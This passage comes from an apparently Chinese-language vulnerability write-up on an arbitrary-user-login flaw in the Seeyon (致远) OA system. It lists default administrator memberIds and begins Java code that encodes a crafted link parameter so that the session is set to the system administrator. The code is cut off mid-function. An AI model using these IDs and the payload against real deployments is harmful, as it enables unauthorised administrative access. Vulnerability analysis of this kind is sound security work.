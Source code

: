 随便挑一个给`linkType`赋值就可以绕过最后一个条件。

接下来就来到最关键的一步

[![](assets/1708507083-74b66c4d3e5afdfe2fe15800c4604d42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220180406-6236f728-cfd7-1.png)

这段代码通过我们拿到的`memberId`作为参数调用了`this.orgManager.getMemberById`，这个方法大致就是通过`memberId`查找对应的用户，从别的师傅文章中得知，致远中存在几个默认的用户。

```bash
"5725175934914479521"   "集团管理员"
"-7273032013234748168"  "系统管理员"
"-7273032013234748798"  "系统监控"
"-4401606663639775639"  "审计管理员"
```

我们只需要通过以上`memberId`就能查询出管理员用户信息，在 422 行，用新创建的`User`对象重新设置了`session`，并且将查询出来的用户信息设置到了`currentUser`对象中，这才导致了任意用户登录漏洞。

**参数编码解码代码**

```bash
public class Test {
    public static void main(String[] args) {
            System.out.println(encodeString("L=message.link.bbs.open&M=-7273032013234748168&T=9999999999999"));
    }

    public static String decodeString(String encodeString) {
        if (encodeString == null) {
            return null;
        } else {
            try {
                encodeString = new String((new Base64()).decode(encodeString.getBytes()));
            } catch (Exception var3) {
                System.out.println(var3.getMessage());
            }

            char[] encodeStringCharArray = encodeString.toCharArray();
```